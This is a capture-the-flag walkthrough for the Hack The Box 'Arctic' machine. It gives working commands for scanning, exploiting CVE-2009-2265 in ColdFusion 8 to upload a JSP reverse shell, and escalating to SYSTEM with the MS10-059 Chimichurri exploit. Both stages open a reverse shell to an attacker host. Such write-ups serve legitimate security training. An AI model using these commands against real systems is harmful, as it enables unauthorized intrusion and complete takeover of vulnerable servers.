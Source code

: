 # 🧊 HTB: Arctic Walkthrough

## 📍 Target Info
- **IP**: 10.10.10.11
- **OS**: Windows Server 2008 R2
- **Difficulty**: Easy
- **User**: `tolis`
- **Root Method**: MS10-059 exploit via Chimichurri

---

## 🔍 Reconnaissance

### 🔎 Full TCP Scan
```bash
nmap -p- --min-rate 10000 -oA nmap-alltcp 10.10.10.11
```

### 🔎 Version & Script Scan
```bash
nmap -sC -sV -p 135,8500,49154 -oA nmap-service 10.10.10.11
```

---

## 🌐 Web Enumeration

### 🌐 Port 8500 Analysis
```bash
curl http://10.10.10.11:8500/
# or
nc 10.10.10.11 8500
```

Revealed ColdFusion 8 interface:
- `/CFIDE/administrator/enter.cfm` → Login panel
- `/userfiles/file/` → Web root accessible

---

## ⚔️ Exploitation (Initial Foothold)

### Method 1: CVE-2009-2265 – Unauthenticated File Upload

#### 🧬 Generate JSP Reverse Shell
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f raw > shell.jsp
```

#### 🗂 Upload Shell via ColdFusion vuln
```bash
cp shell.jsp shell.txt
curl -X POST -F "newfile=@shell.txt;type=application/x-java-archive;filename=shell.txt" \
"http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/shell.jsp%00"
```

#### 🔁 Trigger Reverse Shell
```bash
curl http://10.10.10.11:8500/userfiles/file/shell.jsp
```

### 🧲 Netcat Listener
```bash
rlwrap nc -nvlp 443
```

---

## 🧪 Privilege Escalation

### 📋 Check System Info
```bash
systeminfo
```

**No hotfixes installed** — prime for kernel exploits.

### 🔎 Enumerate with Windows Exploit Suggester
```bash
# On Kali
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
cd Windows-Exploit-Suggester
python3 windows-exploit-suggester.py --update

# Save output from systeminfo
python3 windows-exploit-suggester.py --database 2020-XX-XX-mssb.xls --systeminfo sysinfo.txt
```

**Selected**: MS10-059 — Chimichurri

### 📤 Transfer Exploit Binary
```bash
# On Kali
smbserver.py share .  # from impacket-scripts

# On Arctic shell
net use \\10.10.14.14\share
copy \\10.10.14.14\share\Chimichurri.exe .
```

### 💣 Execute Exploit
```bash
Chimichurri.exe 10.10.14.14 443
```

### 🧲 Netcat Listener
```bash
rlwrap nc -nvlp 443
```

---

## 🏁 Flags

### 🧑‍💻 User
```bash
type C:\Users\tolis\Desktop\user.txt
```

### 👑 Root
```bash
type C:\Users\Administrator\Desktop\root.txt
```